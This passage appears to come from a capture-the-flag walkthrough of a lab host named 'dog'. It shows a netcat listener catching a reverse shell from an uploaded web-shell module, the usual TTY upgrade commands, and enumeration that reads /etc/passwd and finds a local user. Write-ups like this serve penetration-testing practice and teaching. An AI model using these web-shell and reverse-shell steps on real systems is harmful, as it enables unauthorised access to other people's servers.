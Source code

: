 - [http://10.129.47.82/modules/shell/shell.php](http://10.129.47.82/modules/shell/shell.php)

```c
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.83] from (UNKNOWN) [10.129.47.82] 57288
SOCKET: Shell has connected! PID: 1776
python3 -c 'import pty;pty.spawn("/usr/bin/bash")'
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
www-data@dog:/var/www/html/modules/shell$ ^Z
zsh: suspended  nc -lnvp 9001
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ stty raw -echo;fg
[1]  + continued  nc -lnvp 9001

www-data@dog:/var/www/html/modules/shell$ 
www-data@dog:/var/www/html/modules/shell$ export xterm=XTERM
www-data@dog:/var/www/html/modules/shell$
```

## Enumeration

Through a quick `enumeration` we found another user called `johncusack`.

```c
www-data@dog:/var/www/html/modules/shell$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

```c
www-data@dog:/var/www/html/modules/shell$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
```